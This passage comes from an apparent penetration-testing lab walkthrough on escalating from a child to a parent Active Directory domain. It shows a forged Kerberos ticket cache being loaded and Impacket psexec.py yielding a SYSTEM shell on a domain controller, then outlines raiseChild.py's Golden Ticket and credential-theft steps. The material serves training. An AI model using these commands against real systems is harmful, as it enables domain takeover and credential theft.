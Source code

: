 The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials. Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.
## Setting the KRB5CCNAME Environment Variable

```bash
Yashfren@htb[/htb]$ export KRB5CCNAME=hacker.ccache 
```
###### We can check if we can successfully authenticate to the parent domain's Domain Controller using Impacket's version of Psexec. If successful, we will be dropped into a SYSTEM shell on the target Domain Controller.
## Getting a SYSTEM shell using Impacket's psexec.py

```bash
Yashfren@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 172.16.5.5.....
[*] Found writable share ADMIN$
[*] Uploading file nkYjGWDZ.exe
[*] Opening SVCManager on 172.16.5.5.....
[*] Creating service eTCU on 172.16.5.5.....
[*] Starting service eTCU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
ACADEMY-EA-DC01
```

#### Impacket also has the tool raiseChild.py, which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest. If we walk through the output, we see that it starts by listing out the child and parent domain's fully qualified domain names (FQDN). It then:

Obtains the SID for the Enterprise Admins group of the parent domain
Retrieves the hash for the KRBTGT account in the child domain
Creates a Golden Ticket
Logs into the parent domain
Retrieves credentials for the Administrator account in the parent domain
Finally, if the target-exec switch is specified, it authenticates to the parent domain's Domain Controller via Psexec.
### Performing the Attack with raiseChild.py
